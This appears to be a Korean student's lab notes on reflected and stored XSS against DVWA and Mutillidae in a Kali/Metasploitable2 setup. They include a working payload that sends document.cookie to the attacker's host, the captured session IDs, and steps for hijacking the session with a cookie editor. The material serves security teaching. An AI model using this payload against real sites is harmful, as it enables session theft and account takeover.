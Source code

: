 # Wireshark
패킷 캡쳐 프로그램
<br><br><br><br>

# Reflected XSS
- 특정한 피해자를 대상으로 함
- 웹 서버에 XSS가 남는 것은 아님

실습 방법
1. 칼리에 웹서버를 설치 후 `tail -f` 로 로그파일 모니터링 시작
2. 윈도우에서 DVWA에 `admin:password` 로 로그인 한 뒤 XSS reflected에 아래 내용 입력
``` js
<script>document.location='http://192.168.60.128/cookie?'+document.cookie</script>
```
3. 윈도우에서 `404 Not Found` 가 보임과 동시에 칼리에서는 쿠키 정보로써 세션을 탈취한 아래 내용이 보임

``` bash
192.168.60.1 - - [09/Apr/2021:17:18:51 +0900] "GET /cookie?security=low;%20PHPSESSID=48b916e85b42330e04852ff049d5f064 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"
```

4. 칼리에서 DVWA에 `pablo:letmein` 또는 `smithy:password` 로 로그인
5. Cookie Editor 에서 `PHPSESSID` 를 로그 파일의 내용으로 변경
6. 새로고침 하면 왼쪽 아래에 Username 이 admin 으로 된 것을 볼 수 있음
7. 윈도우에서 로그인 된 admin 을 로그아웃 한 후 칼리에서 새로고침 하면 세션이 끊겨서 같이 로그아웃 되는 것을 볼 수 있음
<br><br><br><br>

# Stored XSS
- 임의의 다수를 대상으로 함
- ‘Stored’ 단어처럼 웹서버에 XSS를 저장해서 남김
<br><br><br><br>

# OWASP Top 10
특정 해마다 웹 취약점 중에서 빈도가 많고 보안상 영향을 크게 주는 10가지를 선정해서 발표됨
이 취약점들을 `Mutillidae` 에서 실습 해볼 것임
<br><br><br><br>

# Mutillidae
시작하기에 앞서 `Metasplotiable2` 운영체제의 루트 권한으로 `/var/www/multillidae/config.inc` 파일을 아래 내용에 맞춰 수정하자.
``` php
$dbname = 'owasp10';
```
이로써 데이터베이스가 정상 연결되어 회원가입 등이 원할하게 사용된다.

아까와 같이 `XSS` 실습을 `Mutillidae` 에서 해보자.

1. 칼리에서 `tail -f /var/log/nginx/access.log` 로 로그 모니터링
2. 윈도우에서 `test:test` 회원가입 후 로그인
3. `OWASP Top 10` > `A2 (XSS)` > `Reflected` > `DNS Lookup` 에서 아까와 같은 스크립트를 실행하면 아래와 비슷한 로그 확인

`192.168.60.1 - - [09/Apr/2021:18:07:39 +0900] "GET /cookie?username=test;%20uid=17;%20PHPSESSID=2aae495d56711c667e53e602925e5876 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 쿠키 값으로 `username` / `uid` / `PHPSESSID` 가 보이는데 이것을 칼리 Cookie Editor 로 전부 입력 후 새로고침
5. 왼쪽 상단에 `Logged In User` 가 `test` 인것을 확인할 수 있음

만약 재현을 하려고 윈도우와 칼리에서 웹 브라우저 주소창 왼쪽의 좌물쇠 모양을 누르고 쿠키들을 모두 지워주면 된다.
